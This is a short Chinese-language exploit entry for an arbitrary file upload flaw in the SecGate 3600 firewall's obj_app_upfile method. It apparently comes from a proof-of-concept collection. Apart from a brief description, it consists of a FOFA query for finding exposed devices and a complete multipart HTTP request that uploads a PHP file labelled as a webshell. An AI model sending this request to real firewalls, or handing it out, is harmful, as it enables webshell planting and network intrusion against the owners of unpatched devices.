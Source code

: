 # 网神SecGate 3600防火墙 obj_app_upfile 任意文件上传漏洞

## 漏洞描述

网神SecGate 3600防火墙obj_app_upfile方法存在任意文件上传漏洞

## 漏洞影响

```
2016年以前的版本 CNVD-2022-58824
```

## FOFA

```
title="SecGate 3600" or "SecGate 3600"
```

## 漏洞复现

登陆页面

![image-20230811114306644](img/image-20230811114306644.png)

验证POC,根目录下变量g用于接收方法名。而upfile方法中不会对文件进行校验，只需构造multipart即可

```
POST /?g=obj_app_upfile HTTP/1.1
Host: x.x.x.x
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 574
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows NT 5.0; Trident/4.0)

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="upfile"; filename="vulntest.php"
Content-Type: text/plain

<?php php马?>

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```



